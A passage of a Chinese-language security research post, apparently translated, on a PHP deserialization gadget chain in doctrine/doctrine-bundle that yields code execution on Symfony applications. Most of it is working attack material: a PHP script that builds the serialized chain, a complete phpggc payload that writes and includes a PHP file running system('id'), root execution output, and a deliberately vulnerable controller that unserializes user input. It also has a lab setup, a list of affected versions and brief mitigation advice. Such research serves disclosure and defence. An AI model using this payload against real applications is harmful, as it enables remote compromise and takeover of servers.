use Symfony\Component\HttpFoundation\Session\Storage\MetadataBag;
use Symfony\Component\Cache\Adapter\PhpArrayAdapter;


/* CacheItem is compatible with PHP 7.*, TypedCacheItem is compatible with PHP 8.* PHP版本差异选择*/
if (preg_match('/^7/', phpversion()))
{
    $firstCacheItem = new CacheItem();
    $secondCacheItem = new CacheItem();
} 
else 
{
    $firstCacheItem = new TypedCacheItem();
    $secondCacheItem = new TypedCacheItem();
}

/* File write 任意文件写入*/
$obj_write = new CacheAdapter();
$obj_write->deferredItems = [$firstCacheItem];
$mockSessionStorage = new MockFileSessionStorage();
$mockSessionStorage->metadataBag = new MetadataBag();
$obj_write->cache =$mockSessionStorage;

/* File inclusion 任意文件包含*/
$obj_include = new CacheAdapter();
$obj_include->cache = new PhpArrayAdapter();
$secondCacheItem->expiry = 0; // mandatory to go to another branch from CacheAdapter __destruct
$obj_include->deferredItems = [$secondCacheItem];


$obj = [1000 => $obj_write, 1001 => 1, 2000 => $obj_include, 2001 => 1];

$serialized_string = serialize($obj);
// Setting the indexes for fast destruct 设置析构的索引
$find_write = (
    '#i:(' .
        1001 . '|' .
        (1001 + 1) .
    ');#'
);
$replace_write = 'i:' . 1000 . ';';
$serialized_string2 = preg_replace($find_write, $replace_write, $serialized_string);
$find_include = (
    '#i:(' .
        2001 . '|' .
        (2001 + 1) .
    ');#'
);
$replace_include = 'i:' . 2000 . ';';
echo preg_replace($find_include, $replace_include, $serialized_string2);
}
```

运行它将执行两个POP链，并将在系统上执行任意代码。

```plain
$ php unserialize.php 
a:1:{i:0;s:46:"I was TRIGGEREDuid=0(root) gid=0(root) groups=0(root)
";}
Fatal error: Uncaught TypeError: Doctrine\Common\Cache\Psr6\CacheAdapter::commit(): Return value must be of type bool, null returned in /tmp/poc/vendor/doctrine/cache/lib/Doctrine/Common/Cache/Psr6/CacheAdapter.php:235
[...]
```

全链已经在phpggc项目上推送，基本上是寻找公开披露的POP链时的参考项目。

[https://github.com/ambionics/phpggc/tree/master/gadgetchains/Doctrine/RCE/1](https://github.com/ambionics/phpggc/tree/master/gadgetchains/Doctrine/RCE/1)

使用phpggc生成本文中讨论的POP链如下：

```plain
$ phpggc Doctrine/rce1 'system("id");'          
a:4:{i:1000;O:39:"Doctrine\Common\Cache\Psr6\CacheAdapter":3:{s:13:"deferredItems";a:1:{i:0;O:41:"Doctrine\Common\Cache\Psr6\TypedCacheItem":2:{s:6:"expiry";i:99999999999999999;s:5:"value";s:4:"test";}}s:6:"loader";i:1;s:5:"cache";O:71:"Symfony\Component\HttpFoundation\Session\Storage\MockFileSessionStorage":5:{s:7:"started";b:1;s:8:"savePath";s:4:"/tmp";s:2:"id";s:3:"aaa";s:4:"data";a:1:{i:0;s:22:"<?php system("id"); ?>";}s:11:"metadataBag";O:60:"Symfony\Component\HttpFoundation\Session\Storage\MetadataBag":1:{s:10:"storageKey";s:1:"a";}}}i:1000;i:1;i:2000;O:39:"Doctrine\Common\Cache\Psr6\CacheAdapter":3:{s:13:"deferredItems";a:1:{i:0;O:41:"Doctrine\Common\Cache\Psr6\TypedCacheItem":2:{s:6:"expiry";i:0;s:5:"value";s:4:"test";}}s:6:"loader";i:1;s:5:"cache";O:44:"Symfony\Component\Cache\Adapter\ProxyAdapter":1:{s:4:"pool";O:47:"Symfony\Component\Cache\Adapter\PhpArrayAdapter":1:{s:4:"file";s:17:"/tmp/aaa.mocksess";}}}i:2000;i:1;}
```

影响范围是自1.5.1版本以来， `doctrine/doctrine-bundle` 包的所有版本都受到影响。

## 如何攻击一个基于Symfony的应用程序

### GIF攻击演示

如果你想设置环境，你需要创建一个Symfony应用程序并安装环境。在真实的环境中，只要Symfony应用程序使用doctrine作为其ORM，就会安装 `doctrine/doctrine-bundle` 。

对于此POC验证，项目环境设置如下，可以通过运行这些命令来复制它。

```plain
$ docker run -it -p 8000:80 php:8.1-apache /bin/bash        
$ apt update && apt install wget git unzip libzip-dev
$ wget https://getcomposer.org/installer -O composer-setup.php
$ php composer-setup.php
$ mv composer.phar /usr/local/bin/composer
$ a2enmod rewrite
$ cd /var/www
$ composer create-project symfony/skeleton:"6.2.*" html
$ composer require symfony/maker-bundle --dev
$ php bin/console make:controller UnserializeController
$ composer require symfony/apache-pack
$ composer require doctrine/orm
$ composer require doctrine/doctrine-bundle
$ cat config/routes.yaml 
controllers:
    resource:
        path: ../src/Controller/
        namespace: App\Controller
    type: annotation
$ cat /etc/apache2/sites-enabled/000-default.conf
<VirtualHost *:80>
[...]
        ServerAdmin webmaster@localhost
        DocumentRoot /var/www/html/public
[...]
$ service apache2 start
```

设置完成后，应该能够看到以下页面。当然 `doctrine/doctrine-bundle` 必须安装在Symfony应用程序上，这是Symfony 6.3.3应用程序的默认安装页面。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231028001858-88ae6e5c-74e4-1.png)

`UnserializeController` 类允许用户发送一个base64编码的序列化链来反序列化它。

```plain
<?php

namespace App\Controller;

use Symfony\Bundle\FrameworkBundle\Controller\AbstractController;
use Symfony\Component\HttpFoundation\JsonResponse;
use Symfony\Component\Routing\Annotation\Route;

class UnserializeController extends AbstractController
{
    #[Route('/unserialize')]
    public function index(): JsonResponse
    {
    if (isset($_GET['data'])){
            unserialize(base64_decode($_GET['data']));
    }
        return $this->json([
            'message' => 'Please send the data you want to unserialize with data param'
        ]);
    }
}
```

最后，对Controller链的攻击进行了演示， Symfony应用程序和phpggc在PHP 8.1.22中运行，如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231028001957-abd1c1c2-74e4-1.gif)

### doctrine/doctrine-bundle易受攻击的版本

为了测试POP链的效率，使用了phpggc test-gc-compatibility.py脚本，POP链可以在以下PHP 8版本上被利用，测试在PHP 8.1.22上运行。以下命令可用于列出受影响的版本。

[https://github.com/ambionics/phpggc/blob/master/test-gc-compatibility.py](https://github.com/ambionics/phpggc/blob/master/test-gc-compatibility.py)

```plain
$ python3 test-gc-compatibility.py doctrine/doctrine-bundle doctrine/RCE1
Running on PHP version PHP 8.1.22 (cli) (built: Feb 11 2023 10:43:39) (NTS).
Testing 136 versions for doctrine/doctrine-bundle against 1 gadget chains.

┏━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┳━━━━━━━━━┳━━━━━━━━━━━━━━━┓
┃ doctrine/doctrine-bundle                 ┃ Package ┃ doctrine/RCE1 ┃
┡━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━╇━━━━━━━━━╇━━━━━━━━━━━━━━━┩
│ 2.11.x-dev                               │   OK    │      OK       │
│ 2.10.x-dev                               │   OK    │      OK       │
│ 2.10.2                                   │   OK    │      OK       │
│ 2.10.1                                   │   OK    │      OK       │
│ 2.10.0                                   │   OK    │      OK       │
│ 2.9.x-dev                                │   OK    │      OK       │
│ 2.9.2                                    │   OK    │      OK       │
[...]
│ 1.12.x-dev                               │   OK    │      OK       │
│ 1.12.13                                  │   OK    │      OK       │
│ 1.12.12                                  │   OK    │      OK       │
│ 1.12.11                                  │   OK    │      OK       │
│ 1.12.10                                  │   OK    │      OK       │
[...]
│ 1.6.x-dev                                │   OK    │      OK       │
│ 1.6.13                                   │   OK    │      OK       │
│ 1.6.12                                   │   OK    │      OK       │
│ 1.6.11                                   │   OK    │      OK       │
[...]
│ v1.0.0                                   │   OK    │      KO       │
│ v1.0.0-RC1                               │   OK    │      KO       │
│ v1.0.0-beta1                             │   KO    │       -       │
│ dev-2.10.x-merge-up-into-2.11.x_IKPBtWeg │   OK    │      OK       │
│ dev-symfony-7                            │   OK    │      OK       │
└──────────────────────────────────────────┴─────────┴───────────────┘
```

POP链也可以在PHP 7版本上也有效，在这个phpggc pull request中可以找到易受攻击的依赖项。[https://github.com/ambionics/phpggc/pull/140](https://github.com/ambionics/phpggc/pull/140)

## 文章结论

实际上，这个技巧本身并不是一个漏洞，如果用户提供的数据被发送到任何使用受影响版本的 `doctrine/doctrine-bundle` 包的项目上的 `unserialize` 函数，则可以使用这个POP链。

要修补 `unserialize` 问题，可以使用 `allowed_classes` 参数来使用有效类的白名单。但是，建议使用更安全的函数（如 `json_encode` ）处理用户数据，并使用这种编码重新创建对象。

分享完整的研究过程可能会很有趣，因为这个POP链涉及到几个反序列化技巧。虽然这种方法可能不是最优秀的，但它提供了识别POP链所遵循的总体逻辑以及如何开始的想法。在目前的情况下，同时说明了弱类型语言是如何被利用攻击的。

也许使用PHP调试器（如xdebug）将大大提高此过程的速度。然而，这篇博客文章表明，“花哨”的工具并不总是能够很好的发现和利用漏洞，只需要了解正在处理什么，以及目标是什么。即使POP链本身不可利用，寻找它们也是深入理解PHP代码如何解释的一个很好的练习过程。
